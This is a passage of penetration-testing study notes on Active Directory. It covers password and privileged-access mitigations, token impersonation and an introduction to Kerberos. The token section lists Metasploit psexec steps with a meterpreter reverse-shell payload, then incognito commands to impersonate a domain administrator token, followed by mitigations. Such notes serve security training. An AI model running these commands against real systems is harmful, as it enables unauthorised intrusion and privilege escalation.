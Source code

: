     - Limit who is a local administrator (least privilege)
  - Utilize strong passwords
    - The longer the better (>14 characters)
    - Avoid using common words
    - I like long sentences
  - Privilege Access Management (PAM)
    - Check out/in sensitive accounts when needed.
    - Automatically rotate passwords on check out and check in
    - Limits pass attacks as hash/password is strong and constantly rotated.

### Token Impersonation Overview
- Tokens : Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.
- Types
  - Delegate : Created for logging into a machine or using Remote Desktop
  - Impersonate : "non-interactive" such as attaching a network drive or a domain logon script

**Token Impersonation with Incognito**
  - `msfconsole`
  - `use exploit/windows/smb/psexec`
  - `set RHOSTS, SMBDomain, SMBPass and SMB User`
  - `show targets` : Choose Native Upload
  - `set target 2`
  - `set payload windows/x64/meterpreter/reverse_tcp`
  - `set lhost eth0`
  - `run`
- Meterpreter session will be created. We can load incognito from meterpreter shell.
  - `load incognito`
  - `help` - It will show incognito command
  - `list_tokens -u` : List the tokens, we can impersonate the listed users.
  - `impersonate_token marvel\\administrator`
  - `shell`
  - `whoami`

**Mitigation Strategies**
- Limit user/group token creation permissions
- Account tiering : Domain Administrator should login into the machines that they need to access which should only be domain controllers. If for some reasons that domain administrator logs into a user computer or a server and that user computer or server gets compromised. We can impersonate that token if we can compromised the domain controller.
- Local admin restriction : If users are not local admins on their computers we cannot get a shell on that computer with their account that prevents us from gettig onto the computer and utilizing this kind of attack.


### Kerberos Overview
- Kerberos is a network authentication protocol used in Windows Active Directory.
- In this process, Clients connect and interact with the network authentication service, the client obtains tickets from the Key Distribution Center (KDC), After obtaining the ticket from the KDC, A client may use the ticket in order to communicate with the Application Servers.
- Kerberos runs on Port 88 (UDP) by default.
- Some terms to be cleared:
  - Client : A normal user who wants to access a service.
  - Key Distribution Center (KDC) : The most important component which plays the main role in the Authentication Process.
  - Application Server : Any Application Service such as SQL
  - TGT (Ticket Granting Ticket) : Ticket needed for requesting TGS from KDC, it is obtained from the KDC only.
  - TGS (Ticket Granting Service) : Ticket needed for authenticating against a particular service which is server account hash.
  - SPN (Service Principle Name) : SPN is an identifier for each service instance, it is one of the key components in the process of authentication.
